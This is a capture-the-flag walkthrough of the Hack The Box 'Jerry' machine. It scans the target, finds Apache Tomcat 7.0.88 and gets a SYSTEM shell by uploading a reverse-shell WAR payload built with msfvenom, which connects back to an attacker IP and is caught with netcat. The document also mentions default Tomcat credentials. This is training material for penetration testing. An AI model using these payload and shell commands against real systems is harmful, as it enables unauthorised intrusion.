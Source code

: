 # Jerry
[![Generic badge](https://img.shields.io/badge/Completed-<green>.svg)](https://shields.io/)

Jerry is an Easy Windows machine, and is suggested practice for the OSCP Excam.

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -Pn 10.10.10.95
```
**Results**
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 10:11 BST
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.75 seconds
```
We can see from the above results that there is an Apache Tomcat service running on port 8080. 

### Web Server
We can visit the Apache Tomcat webserver on ```http://10.10.10.95:8080```.

From here we can confirm again that the version that is running is ```7.0.88``` and that it corresponds with the version of Tomcat Nmap returned.

We can click around the web panel 

## Foothold
### Payload
We can generate a ```war``` payload using ```msfvenom```.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=1234 -f war > shell.war
```
We can upload this to to the Tomcat Manager. Creat a listener so that we can catch the incoming connection:
```bash
user@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
```
Now browse to ```http://10.10.10.95:8080/shell```. The payload will run and we will recieve a connection into our listener.
```bash
user@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

We can check the contents of the current directory we are in using ```dir```.
```bash
C:\apache-tomcat-7.0.88>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\apache-tomcat-7.0.88

06/19/2018  04:07 AM    <DIR>          .
06/19/2018  04:07 AM    <DIR>          ..
06/19/2018  04:06 AM    <DIR>          bin
06/19/2018  06:47 AM    <DIR>          conf
06/19/2018  04:06 AM    <DIR>          lib
05/07/2018  02:16 PM            57,896 LICENSE
10/09/2020  07:04 AM    <DIR>          logs
05/07/2018  02:16 PM             1,275 NOTICE
05/07/2018  02:16 PM             9,600 RELEASE-NOTES
05/07/2018  02:16 PM            17,454 RUNNING.txt
06/19/2018  04:06 AM    <DIR>          temp
10/09/2020  08:34 PM    <DIR>          webapps
06/19/2018  04:34 AM    <DIR>          work
               4 File(s)         86,225 bytes
               9 Dir(s)  27,602,845,696 bytes free
```

### Flags
If we run ```whoami``` it turns out we're running as ```nt authority\system```. Not a very good idea to be running a vulnerable server as ```system```. 

We can now navigate to ```C:\Users\Administrator\Desktop\flags>``` and use ```type``` command to read the flag file. Both the user and root flags are in this file.

## What have we learned
##### Search
When hunting around for exploits, don't just look for ```Unauthenticated RCEs```. The Tomcat server was using default credentials that can we found in one of the status pages. Systems can be setup, but they might not be setup using best practices. Chaging the username and password from default would have prevented this.

##### msfvenom
This is a really cool tool. Having to craft payloads from scratch can be tiresome and without reason. Using msfvenom seriously speeds up the time and lowers the barrier for entry to get a foothold on the system.

## Further Reading
- Tomcat
- msfvenom
